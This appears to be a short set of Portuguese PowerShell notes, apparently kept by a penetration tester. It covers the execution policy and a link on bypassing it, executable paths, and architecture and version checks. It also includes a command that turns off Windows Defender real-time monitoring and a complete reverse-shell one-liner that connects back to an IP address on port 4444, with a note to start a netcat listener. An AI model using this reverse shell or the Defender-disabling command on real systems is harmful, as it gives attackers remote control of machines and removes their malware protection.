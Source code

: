 Powershell
========================

Executar o seguinte comando para habilitar a utilização de scripts em powershell:


```
Set-ExecutionPolicy RemoteSigned
```

https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/

opção "A"

Full Path powershelll

64 bits version: C:\Windows\System32\WindowsPowerShell\v1.0\
32 bits version: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\

    %SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
    #ou
    C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe   

## Architecture

    (Get-Process -Id $PID).StartInfo.EnvironmentVariables["PROCESSOR_ARCHITECTURE"];
    
    [Environment]::Is64BitProcess


## Versão do powerhsell

    $host.version.major

## Desabilitar windows defender com powershell

Set-MpPreference -DisableRealtimeMonitoring $true


## Comments
    #comments in powershell 
  
One-liner shell in powershell:

    #no lado do servidor basta abrir um netcat -nlvp 4444
    $client = New-Object System.Net.Sockets.TCPClient('192.168.119.246',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()


## read file line by line

